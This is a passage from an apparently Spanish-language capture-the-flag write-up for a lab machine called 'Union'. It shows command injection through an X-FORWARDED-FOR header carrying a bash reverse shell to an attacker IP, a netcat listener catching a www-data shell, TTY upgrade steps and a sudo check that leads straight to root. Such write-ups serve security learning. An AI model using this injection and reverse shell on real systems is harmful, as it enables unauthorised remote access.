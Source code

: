Y bueno recibimos la trasa

```powershell
❯ tcpdump -i tun0 icmp -n
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
15:05:23.040309 IP 10.10.11.128 > 10.10.14.12: ICMP echo request, id 2, seq 1, length 64
15:05:23.040336 IP 10.10.14.12 > 10.10.11.128: ICMP echo reply, id 2, seq 1, length 64
```

Como podemos ejecutar comandos lo que podemos hacer ahora es enviarnos una reverse shell para ganar acceso como **www-data** así que nos pondremos en escucha con **netcat**

```python
uhc@union:/var/www/html$ curl -s -X GET http://localhost/firewall.php -H "X-FORWARDED-FOR: 1.1.1.1; bash -c 'bash -i >& /dev/tcp/10.10.14.12/443 0>&1;'" -H "Cookie: PHPSESSID=pe0n0bkv7dl2rd2tc61mceb5hk"
```

```powershell
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.128 53842
bash: cannot set terminal process group (819): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$ 
```

Tratamiento de la tty 

```python
❯ nc -nlvp 443
Listening on 0.0.0.0 443
Connection received on 10.10.11.128 53842
bash: cannot set terminal process group (819): Inappropriate ioctl for device
bash: no job control in this shell
www-data@union:~/html$ script /dev/null -c bash
script /dev/null -c bash
Script started, file is /dev/null
www-data@union:~/html$ ^Z
zsh: suspended  nc -nlvp 443
❯ stty raw -echo; fg
[1]  + continued  nc -nlvp 443
                              reset xterm
ENTER
www-data@union:~/html$ export TERM=xterm
www-data@union:~/html$
```

## Escalada de privilegios

Si hacemos un `sudo -l` tenemos este privilegio a nivel de **sudoers** y bueno podemos convertirnos en **root** directamente 

```python
www-data@union:~/html$ sudo -l
Matching Defaults entries for www-data on union:
    env_reset, mail_badpass,
    secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User www-data may run the following commands on union:
    (ALL : ALL) NOPASSWD: ALL
www-data@union:~/html$
```
